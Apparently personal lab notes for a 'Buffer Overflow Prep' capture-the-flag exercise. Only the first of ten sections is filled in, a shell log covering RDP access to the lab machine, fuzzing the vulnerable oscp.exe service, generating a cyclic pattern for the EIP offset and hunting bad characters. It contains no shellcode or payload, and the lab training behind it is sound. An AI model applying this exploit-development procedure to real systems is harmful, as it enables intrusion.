 # Buffer Overflow Prep - Easy

1. [OVERFLOW1](#overflow1)
2. [OVERFLOW2](#overflow2)
3. [OVERFLOW3](#overflow3)
4. [OVERFLOW4](#overflow4)
5. [OVERFLOW5](#overflow5)
6. [OVERFLOW6](#overflow6)
7. [OVERFLOW7](#overflow7)
8. [OVERFLOW8](#overflow8)
9. [OVERFLOW9](#overflow9)
10. [OVERFLOW10](#overflow10)

## OVERFLOW1

```shell
xfreerdp /u:admin /p:password /cert:ignore /v:10.10.36.72 /workarea
#connect to machine rdp

#after running oscp.exe
nc 10.10.36.72 1337
#connected to OSCP vulnerable server

HELP

OVERFLOW1 test

vim fuzzer.py

python3 fuzzer.py
#fuzzer crashed at 2000 bytes

vim exploit.py

/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2400
#generates cyclic pattern of 2000+400 bytes

vim exploit.py
#copy pattern to payload variable

#re-open oscp.exe in Immunity Debugger, and run it again
#necessary before running exploit.py everytime

python3 exploit.py
#crashes oscp.exe server

vim exploit.py
#update offset variable to EIP offset
#set payload variable to empty string
#set retn variable to "BBBB"

#restart oscp.exe before running exploit
python3 exploit.py

vim badchars.py

python3 badchars.py
#copy output to payload variable in exploit.py

#continue cycle till badchars are found and mona compare returns 'unmodified'

vim exploit.py
```